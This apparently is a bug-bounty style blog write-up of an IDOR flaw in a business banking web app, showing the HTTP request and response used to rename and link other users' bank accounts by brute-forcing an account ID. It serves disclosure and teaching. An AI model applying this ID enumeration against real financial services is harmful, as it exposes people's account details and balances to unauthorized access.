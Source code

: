 ```yaml
---
title: "Insecure Direct Object References (IDOR) Exploit Enables Unauthorized Access to Linked Bank Accounts"
date: 2022-10-10 12:00
---
```


Exploiting an Insecure Direct Object References (IDOR) vulnerability to gain control over other users' linked bank accounts.

![preview](/assets/images/blogs/IDOR/access-control.svg)

## Target Information
The target is a web application designed to facilitate invoice tracking, bill payment, and other transactions for organizations. It functions as a business banking application.

## Reconnaissance
Upon examining the application's features, it was determined that the application is susceptible to an Insecure Direct Object References (IDOR) vulnerability. The vulnerability arises due to the application's reliance on user-provided input in the URL and JSON objects within the request body to perform actions on its APIs.

## Exploitation
Several endpoints were exploited to gain unauthorized access to other organizations' users' invoices, transaction details, and bills.

A noteworthy feature of the application allows users to link their bank accounts within the application. Upon merging accounts, the application generates a virtual bank account, such as the "ABC Virtual Bank Account" from "ABC Internet Bank."

To facilitate easy identification of bank account details, the application offers a feature allowing users to rename their accounts with nicknames. The following request demonstrates this functionality:

## Request
```http
PUT /connected_banking/12345 HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
	"bankid": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000
}
```

## Response
```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
	"abc_account_id": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000,
	"current_balance": 10000.00
}
```
The above request illustrates that the application utilizes the bank ID from the URL and the JSON object in the request body. By brute-forcing the `bankid`, I was able to change the nicknames of other users' bank accounts.

The IDOR vulnerability did not end there. Whenever I modified the nickname of users' bank accounts, those accounts became linked to my "ABC Virtual Bank Account." Consequently, I gained access to the bank account details, balances, transactions, and other information of these users.

Thank you for reading.

Follow me on Twitter: [thevillagehacker](https://twitter.com/thevillagehackr)